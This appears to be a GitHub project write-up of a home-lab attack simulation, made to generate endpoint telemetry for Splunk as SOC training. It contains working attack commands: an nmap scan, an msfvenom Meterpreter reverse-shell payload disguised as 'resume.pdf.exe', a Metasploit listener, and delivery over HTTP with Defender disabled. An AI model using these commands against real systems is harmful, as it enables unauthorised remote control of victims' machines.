 # Home Lab Attack Simulation & Telemetry Generation
<p>This project was designed as a simulation of a real-world cyberattack, conducted in a virtual lab environment. Its primary goal is to demonstrate how endpoint telemetry can be generated, collected, and analyzed using widely available tools such as Sysmon and Splunk. This project helped me gain hands-on experience with attacker techniques, logging mechanisms, and security monitoring—all of which are essential for working in a SOC environment.</p>

# Prerequisites
<ul>
  <li>Kali Linux – As the attacker machine</li>
  <li>Windows 10 – As the target machine</li>
  <li>Splunk must be installed on the Windows VM.</li>
  <li>Sysmon must be installed using the Splunk Add-on for Sysmon and configured on the Windows VM to generate detailed logs</li>
</ul>

# Simulation
<p>To set up the lab, I used VirtualBox to run two virtual machines: Kali Linux (as the attacker) and Windows 10 (as the target). Both VMs were configured to use an "Internal Network" mode in VirtualBox to ensure isolated communication within the same virtual network. This configuration prevents interaction with the outside internet while allowing both machines to communicate securely.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/%F0%9F%9B%A1%EF%B8%8F%20Home%20Lab%20Attack%20Simulation%20&%20Telemetry%20Generation%20-%20visual%20selection.png?raw=true">
</p>

<p>To ensure stable communication and easier referencing, each virtual machine was assigned a static IP address. Kali Linux was configured with an IP address such as 192.168.56.100, while Windows 10 was assigned 192.168.56.110. These IPs fall within the same subnet and enable consistent access throughout the simulation. This setup ensures that tools like Nmap and Metasploit can reliably interact with the Windows VM during reconnaissance and exploitation.</p>

<p>The simulation begins with reconnaissance. Using Kali Linux, I performed a network scan with Nmap to discover open ports and services on the Windows target.</p>
<pre>
  nmap -A 192.168.56.110 -Pn
</pre>
<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Nmap.png?raw=true">
</p>
<ul>
  <p>The scan identified multiple open ports, including:</p>
  <li>135/tcp (Microsoft RPC)</li>
  <li>139/tcp (NetBIOS-SSN)</li>
  <li>445/tcp (Microsoft-DS)</li>
  <li>8000/tcp (Splunkd HTTP interface)</li>
  <li>8089/tcp (Splunkd management port)</li>
</ul>

<p>Next, I used msfvenom to generate a simple Meterpreter reverse shell payload:</p>

<pre>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.56.100 lport=4444 -f exe -o resume.pdf.exe</pre>

<p>This creates an executable file named resume.pdf.exe that, when executed, will attempt to connect back to the Kali Linux machine on port 4444.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Msfvenom.png?raw=true">
</p>

<p>I then set up a listener in Metasploit to catch the reverse shell:</p>
<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/msf6%20exploit.png?raw=true">
</p>
<pre>
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.100
set LPORT 4444
exploit
</pre>

<p>To deliver the payload, I hosted it using a Python HTTP server:</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Hosting%20.png?raw=true">
</p>

<pre>python3 -m http.server 9999</pre>

<p>After disabling Windows Defender for this test, I downloaded and executed the payload on the Windows VM.</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/download%20malicious.png?raw=true">
</p>


<p>I confirmed the reverse connection using the following command:</p>
<pre>netstat -anob</pre>

<p>
The result clearly showed an ESTABLISHED connection between the Windows machine and the Kali attacker machine on port 4444, with the process name resume.pdf.exe. This confirmed that the payload had successfully executed and connected back to the attacker:
</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/netstat.png?raw=true">
</p>

<p>To further validate this, I opened Task Manager and found that resume.pdf.exe was indeed running under the expected PID. This allowed me to correlate the netstat entry with a live process</p>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/Taskmgr%201128%20PID.png?raw=true">
</p>

<p>Initially, I expected Sysmon which was already installed and configured on the Windows machine to begin recording detailed logs, including process creation, command-line activity, and network connections. However, I noticed that Sysmon data wasn't showing up in Splunk. When I ran the following query:</p>

<pre>index=endpoint | stats count by sourcetype</pre>

<p>
  Sysmon was missing from the results, and only default event logs such as Application, Security, System, PowerShell, and Windows Defender appeared:
</p>

<p>Despite this, Splunk was still able to receive logs from Microsoft Defender. I verified this using the following query:</p>
<pre>
  index=endpoint resume.pdf.exe EventCode=1116
</pre>

<p align="center">
    <img src="https://github.com/bagaskarapd/Attack-Simulation/blob/main/Screenshots/queries2.png?raw=true">
</p>

<p>
  This query returned a log entry showing that Windows Defender had detected the payload as Trojan:Win64/Meterpreter.AMTB with a severity of "Severe." The log showed the payload was downloaded via HTTP from the attacker machine and included detailed file paths and process information:
</p>

# Conclusion
<p>This simulation gave me the chance to walk through a complete attacker-to-defender scenario using tools like Kali Linux, Metasploit, and Splunk. Although I faced a challenge with Sysmon logs not appearing in Splunk, the project still delivered valuable insights through Defender alerts, PID correlation, and network activity analysis. This experience reaffirmed the importance of thorough configuration in log collection and showed me how even partial telemetry can support meaningful detection. Moving forward, I aim to revisit and refine my Sysmon setup to enhance visibility, enabling deeper investigations using process tree analysis and command-line auditing. The lessons learned here reflect my determination to grow and adapt as a future SOC Analyst.</p>
